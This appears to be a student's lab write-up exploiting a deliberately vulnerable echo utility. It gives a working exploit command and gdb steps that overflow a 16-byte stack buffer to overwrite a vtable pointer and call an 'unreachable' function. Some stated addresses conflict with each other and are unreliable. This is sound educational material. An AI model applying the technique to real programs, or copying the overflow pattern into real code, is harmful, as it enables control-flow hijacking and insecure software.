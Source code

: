 # Doc

## Program Description

The program receives string as an input, and prints it to stdout

`-n` flag will output the trailing newline

`-e` flag will enable interpretation of backslash escapes

## Vulnerability

- set env variable `ECHOUTIL_OPT_ON` to something (other than NULL) to make `allow_options`=true
- add flag -e to make `do_escape`=true and call the function `handle_escape`
- enter input string that starts with `\\\\` to pass the if statement `if(do_escape && s[0] == '\\')` (four backslashes to escape the backslash itself)
- to enter the `case 'x'` in the switch statement (line 89), we need the first char after the `\\\\` to be `x`, because `switch (l.buffer[0])` checks the first letter after it.
- the struct `l` that defined in the function `handle_escape` has a member called `buffer` that allocates 16 chars on the stack, so if the input will startswith `\\\\` and the rest of the input length will be bigger than 16, we can do buffer overflow

## Exploit

### Description

- On the stack, right after `l.buffer`, there is the vptr of `Handler`. To execute the `unreachable` function on `l.h`, we can set the address of this vptr on the stack with the buffer overflow to the same address-4, to call `unreachable` instead of `helper`.
- The address of `Handler` vptr is `0xffffcd14`, and the vptr points to the vtable at: `0x56558ec4`. So we need to change memory address at `0xffffcd04` : from `0x56558ec4` -> `0x56558ec0`

### Change memory with gdb at runtime

change memory address at `0xffffcd14` : from `0x56558ec4` -> `0x56558ec0`

```shell
(gdb) set {int} 0xffffcd04 = 1448447680 # 1448447680 -> 0x56558ec0 (decimal -> hex)
```

### Exploit with input

Repeat `A` 15 times to fill the 16 bytes buffer, and then `\xc0` to decrease the memory address by 4 (the address there is `c4`).

```shell
ECHOUTIL_OPT_ON=deadbeef ./mmn12-q2 -e "$(echo -en "\\\\xAAAAAAAAAAAAAAA\xc0")"
```

## Random Notes

### Registers

ebp
esp (stack pointer, points to the top of the stack)
eip (instruction pointer)

### Addresses

- `l.bufffer` at 0xffffcd14 (16 bytes)
- `l.h` at 0xffffcd24
- The address that holds pointer to `unreachable` function (and also the address of the virtual table of `l.h`) - `0x56558ec4`
- The address that holds pointer to `helper` function - `0x56558ec8`
- `helper` function - `0x56556824`
- `unreachable` function - `0x565567ee`

### GDB Commands

```shell
set environment ECHOUTIL_OPT_ON=test # set environemnt variable
set args -e \\\\XAAAAAAAAAAAAAAABBBB # set argv for the program
break handle_escape # breakpoint at function handle_escape
break main
x/1i $eip # print the value the register $eip holds
x/16x $esp # print esp (which points to the top of the stack) and 16 bytes higher (which is also the stack)
```
